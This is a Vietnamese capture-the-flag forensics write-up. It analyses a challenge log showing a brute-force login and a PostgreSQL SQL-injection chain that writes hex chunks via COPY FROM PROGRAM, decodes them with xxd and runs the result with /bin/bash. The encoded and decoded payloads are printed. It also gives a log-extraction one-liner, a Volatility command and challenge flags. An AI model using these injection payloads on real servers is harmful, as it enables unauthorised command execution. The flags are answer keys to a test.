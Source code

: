 ![image](https://hackmd.io/_uploads/H1E_rcbwJl.png)

Nghe các em nói giải này For dễ mà hay nên tranh thủ đang rảnh háng làm rồi viết wup chơi chơi 

# Easy Log
![image](https://hackmd.io/_uploads/Hyp-S9ZDkg.png)

## Analysis
File chúng ta có là một file `evidence-log.txt`

### Brute-force Attack
![image](https://hackmd.io/_uploads/HkIoRqWD1x.png)

Đoạn đầu log ghi lại T.A đang thực hiện **brute-force**. Sau một hồi thực hiện tấn công, T.A đang tấn công thành công khi server đã trả về `200` với credential `admin:legend`

![image](https://hackmd.io/_uploads/Hkobes-PJg.png)

Sau đó T.A thực hiện các test case nhằm vào lỗ hổng **SQLi** ở các path như `/article`, `/user`

### SQLi to Create program

Ngay sau khi dò, T.A đã thực hiện một loạt hành động lặp lại liên quan đến query SQLi
```
192.168.25.1 - - [11/Jan/2025 02:53:26] GET http://secret.vsl.com.vn/user?id=1;SELECT%20*%20from%20binary HTTP/1.1 200 - Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [11/Jan/2025 02:53:26] "GET http://secret.vsl.com.vn/user?id=0;DROP%20TABLE%20IF%20EXISTS%20binary HTTP/1.1" 200 - "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [11/Jan/2025 02:53:26] "GET http://secret.vsl.com.vn/user?id=1;CREATE%20TABLE%20binary(cmd_output%20text) HTTP/1.1" 200 - "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
192.168.25.1 - - [11/Jan/2025 02:53:26] "GET http://secret.vsl.com.vn/user?id=1;COPY%20binary%20FROM%20PROGRAM%20%27echo%2003003e00010000006010000000000000%20%3E%3E%20binary%27 HTTP/1.1" 200 - "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
```
![image](https://hackmd.io/_uploads/BkEwtcLDJe.png)

Kết thúc dòng log xuất hiện thêm một query khác 

![image](https://hackmd.io/_uploads/SJzPj5Lwyx.png)

Decode từ URL sang nó trông như thế này
```
SELECT * from binary
DROP TABLE IF EXISTS binary
CREATE TABLE binary(cmd_output text)
COPY binary FROM PROGRAM 'echo 03003e00010000006010000000000000 >> binary'
COPY binary FROM PROGRAM 'xxd -r -p binary > binary'
COPY binary FROM PROGRAM '/bin/bash binary'
```
Giải thích hành động trên có thể như sau:
- Để tránh bị phát hiện và khả năng giới hạn input, T.A liên tục nhập các mã binary vào server nhằm mục đích liên tục "viết code" để tạo ra một chương trình
	```
	SELECT * from binary
	DROP TABLE IF EXISTS binary
	CREATE TABLE binary(cmd_output text)
	COPY binary FROM PROGRAM 'echo \03003e00010000006010000000000000 >> binary'
	```
- Sau đó sử dụng lệnh của `xxd` để chyueern nó thành dạng binary để chắc chắc chắn nó trở thành file binary
 ```
 COPY binary FROM PROGRAM 'xxd -r -p binary > binary'
 -r chuyển đổi từ hex sang bin
 -p thực hiện giải mã
 ```
- Sau đó bắn đầu chạy file với `/bin/bash binary`

Sau khi hiểu được hành vi của T.A, ta sẽ biết được bước tiếp theo làm gì : ). Đó chính là grep string lại để xem chương trình đó là gì (Khả năng flag nằm trong file này thôi)
 
### Grep String to get program
Linux thượng thừa:
```
sed -n '6230,10246p' evidence-log.txt |awk '{print $7}'| sed -n 's/.*echo%20\([^%]*\)%20%3E%3E%20binary%27/\1/p' > test.txt
- awk lấy cột thứ 7
- sed tìm và lọc theo regex
```

![image](https://hackmd.io/_uploads/Bk783oUD1e.png)

## Flag
:::spoiler Click here
```
VSL{4a7b886cf1c4ab93e740c5ef935749ce}
```
:::

# 4 parts
![image](https://hackmd.io/_uploads/ByhMB9-PJg.png)

## Analysis
```
vol.py -f evidence.raw --profile Win7SP1x64 dumpfiles -Q 0x000000007e5879f0 -D /home/remnux/Desktop/
```
...

Vì lười viết quá nên nhờ tạm [write-up của một bạn UIT viết](https://hackmd.io/@Raviyelna/SyPgXW-wJg#4-parts), rất cảm ơn bạn : )

## Flag
:::spoiler Click here
```
VSL{wh4t_h4pp3n3d_1ns1d3_my_l4pt0p_@^@omg@@}
```
:::

